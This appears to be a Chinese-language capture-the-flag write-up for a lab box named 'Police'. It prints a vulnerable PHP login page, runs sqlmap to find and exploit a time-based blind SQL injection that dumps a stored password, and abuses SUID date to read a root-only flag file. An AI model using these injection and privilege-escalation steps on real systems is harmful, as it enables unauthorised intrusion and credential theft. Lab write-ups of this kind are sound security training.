

# Police

## 信息搜集

```bash
# 直接 netstat -anopt 看本机的就行
# 核心 80 端口
```

## Web Service SQL注入

```plaintext
http://10.10.110.101/police/
```



审计本机源码

```php title="/var/www/html/police/userlogin.php"
<!DOCTYPE html>
<html>
<head>
<?php


if(isset($_POST['s']))
{
    session_start();
    $_SESSION['x']=1;
    $conn=mysqli_connect("localhost","root","","crime_portal");
    if(!$conn)
    {
        die("could not connect".mysqli_error());
    }
    mysqli_select_db("crime_portal",$conn);

    if($_SERVER["REQUEST_METHOD"]=="POST")
    {
        $name=$_POST['email'];
        $pass=$_POST['password'];
        $u_id=$_POST['email'];
        $_SESSION['u_id']=$u_id;
        $result=mysqli_query($conn,"SELECT u_id,u_pass FROM user where u_id='$name'and u_pass='$pass' ");


        if(!$result || mysqli_num_rows($result)==0)
        {
          $message = "Id or Password not Matched.";
          echo "<script type='text/javascript'>alert('$message');</script>";


        }
        else
        {
          header("location:complainer_page.php");

        }
    }
}
?>
        <link rel="stylesheet" type="text/css" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
        <link rel="stylesheet" type="text/css" href="https://maxcdn.bootstrapcdn.com/font-awesome/4.4.0/css/font-awesome.min.css">
        <link href="http://fonts.googleapis.com/css?family=Lato:300,400,700,300italic,400italic,700italic" rel="stylesheet" type="text/css">

    <script>
     function f1()
        {
            var sta2=document.getElementById("exampleInputEmail1").value;
            var sta3=document.getElementById("exampleInputPassword1").value;
          var x2=sta2.indexOf(' ');
var x3=sta3.indexOf(' ');
    if(sta2!="" && x2>=0){
    document.getElementById("exampleInputEmail1").value="";
    document.getElementById("exampleInputEmail1").focus();
      alert("Space Not Allowed");
        }
        else if(sta3!="" && x3>=0){
    document.getElementById("exampleInputPassword1").value="";
    document.getElementById("exampleInputPassword1").focus();
      alert("Space Not Allowed");
        }

}
    </script>

        <title>Complainant Login</title>
</head>
<body style="background-size: cover;
    background-image: url(regi_bg.jpeg);
    background-position: center;">
        <nav class="navbar navbar-default navbar-fixed-top" style="height: 60px;">
  <div class="container">
    <div class="navbar-header">

      <a class="navbar-brand" href="index.php" style="margin-top: 5%;"><b>Crime Portal</b></a>
    </div>
    <div id="navbar" class="collapse navbar-collapse">
      <ul class="nav navbar-nav">
        <li class="active" style="margin-top: 5%;"><a href="userlogin.php">Complainer Login</a></li>
      </ul>


    </div>
  </div>
 </nav>
 <div  align="center">
        <div class="form" style="margin-top: 15%">
                <form method="post">
  <div class="form-group" style="width: 30%">
    <label for="exampleInputEmail1"><h1 style="color: #fff;">User Id</h1></label>
    <input type="email" class="form-control" id="exampleInputEmail1" aria-describedby="emailHelp" size="5" placeholder="Enter Email id" required name="email" onfocusout="f1()">
     </div>
  <div class="form-group" style="width:30%">
    <label for="exampleInputPassword1"><h1 style="color: #fff;">Password</h1></label>
    <input type="password" class="form-control" id="exampleInputPassword1" placeholder="Password" required name="password" onfocusout="f1()">
  </div>

  <button type="submit" class="btn btn-primary" name="s" onclick="f1()">Submit</button>
</form>
        </div>
</div>
<div style="position: fixed;
   left: 0;
   bottom: 0;
   width: 100%;
   background-color: rgba(0,0,0,0.7);
   color: white;
   text-align: center;">
  <h4 style="color: white;">&copy <b>Crime Portal 2018</b></h4>
</div>

</body>
</html>
```

很明显的 sql 注入

```bash
┌──(randark ㉿ kali)-[~]
└─$ sqlmap -u http://10.10.110.101/police/userlogin.php --form --batch
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.3#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:48:35 /2025-04-12/

[16:48:35] [INFO] testing connection to the target URL
[16:48:36] [INFO] searching for forms
[1/1] Form:
POST http://10.10.110.101/police/userlogin.php
POST data: email=&password=&s=
do you want to test this form? [Y/n/q]
> Y
Edit POST data [default: email=&password=&s=] (Warning: blank fields detected): email=&password=&s=
do you want to fill blank fields with random values? [Y/n] Y
[16:48:36] [INFO] using '/home/randark/.local/share/sqlmap/output/results-04122025_0448pm.csv' as the CSV results file in multiple targets mode
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=2tvtinaafnr...a3q7k6s203'). Do you want to use those [Y/n] Y
[16:48:36] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:48:37] [INFO] testing if the target URL content is stable
[16:48:37] [INFO] target URL content is stable
[16:48:37] [INFO] testing if POST parameter 'email' is dynamic
[16:48:37] [WARNING] POST parameter 'email' does not appear to be dynamic
[16:48:37] [WARNING] heuristic (basic) test shows that POST parameter 'email' might not be injectable
[16:48:38] [INFO] testing for SQL injection on POST parameter 'email'
[16:48:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:48:40] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[16:48:41] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[16:48:43] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[16:48:44] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[16:48:45] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[16:48:47] [INFO] testing 'Generic inline queries'
[16:48:47] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[16:48:49] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[16:48:50] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[16:48:51] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[16:49:02] [INFO] POST parameter 'email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[16:49:02] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:49:02] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
got a 302 redirect to 'http://10.10.110.101/police/complainer_page.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[16:49:11] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[16:49:29] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[16:49:29] [INFO] checking if the injection point on POST parameter 'email' is a false positive
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=npai'AND (SELECT 1251 FROM (SELECT(SLEEP(5)))QMQw) AND'Vdae'='Vdae&password=YrVE&s=vpfQ
---
do you want to exploit this SQL injection? [Y/n] Y
[16:49:46] [INFO] the back-end DBMS is MySQL
[16:49:46] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41, PHP
back-end DBMS: MySQL >= 5.0.12
[16:49:48] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/randark/.local/share/sqlmap/output/results-04122025_0448pm.csv'

[*] ending @ 16:49:48 /2025-04-12/
```

没有明显的结果回显，也没有报错，只能上时间盲注，可以得到用户密码

```bash
┌──(randark㉿kali)-[~]
└─$ sqlmap -u 10.10.110.101/police/userlogin.php --form --batch -D crime_portal -T user -C u_pass --dump --fresh-queries --time-sec=1
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.3#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:06:02 /2025-04-12/

[18:06:02] [INFO] testing connection to the target URL
[18:06:02] [INFO] searching for forms
[1/1] Form:
POST http://10.10.110.101/police/userlogin.php
POST data: email=&password=&s=
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: email=&password=&s=] (Warning: blank fields detected): email=&password=&s=
do you want to fill blank fields with random values? [Y/n] Y
[18:06:03] [INFO] resuming back-end DBMS 'mysql' 
[18:06:03] [INFO] using '/home/randark/.local/share/sqlmap/output/results-04122025_0606pm.csv' as the CSV results file in multiple targets mode
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=rlbmfgl7h3c...qdhlbke0kn'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=npai' AND (SELECT 1251 FROM (SELECT(SLEEP(1)))QMQw) AND 'Vdae'='Vdae&password=YrVE&s=vpfQ
---
do you want to exploit this SQL injection? [Y/n] Y
[18:06:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41, PHP
back-end DBMS: MySQL >= 5.0.12
[18:06:03] [INFO] fetching entries of column(s) 'u_pass' for table 'user' in database 'crime_portal'
[18:06:03] [INFO] fetching number of column(s) 'u_pass' entries for table 'user' in database 'crime_portal'
[18:06:03] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                 
[18:06:12] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
1
[18:06:15] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                        
cPvTFWVo1G
Database: crime_portal
Table: user
[1 entry]
+------------+
| u_pass     |
+------------+
| cPvTFWVo1G |
+------------+

[18:07:26] [INFO] table 'crime_portal.`user`' dumped to CSV file '/home/randark/.local/share/sqlmap/output/10.10.110.101/dump/crime_portal/user.csv'
[18:07:26] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/randark/.local/share/sqlmap/output/results-04122025_0606pm.csv'

[*] ending @ 18:07:26 /2025-04-12/
```

## 提权至 root

检查suid文件

```bash
eddie@htb:/var/www/html/police$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgidmap
/snap/core18/1997/bin/mount
/snap/core18/1997/bin/ping
/snap/core18/1997/bin/su
/snap/core18/1997/bin/umount
/snap/core18/1997/usr/bin/chfn
/snap/core18/1997/usr/bin/chsh
/snap/core18/1997/usr/bin/gpasswd
/snap/core18/1997/usr/bin/newgrp
/snap/core18/1997/usr/bin/passwd
/snap/core18/1997/usr/bin/sudo
/snap/core18/1997/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1997/usr/lib/openssh/ssh-keysign
/snap/snapd/11588/usr/lib/snapd/snap-confine
/snap/snapd/11402/usr/lib/snapd/snap-confine
/bin/date
/bin/fusermount
/bin/su
/bin/umount
/bin/mount
```

直接使用`date`构造文件读取

```bash
(remote) eddie@htb:/home/eddie$ date -f /root/flag.txt
date: invalid date ‘8c19c5d86369eb35fdfeefe468281fa8’
```
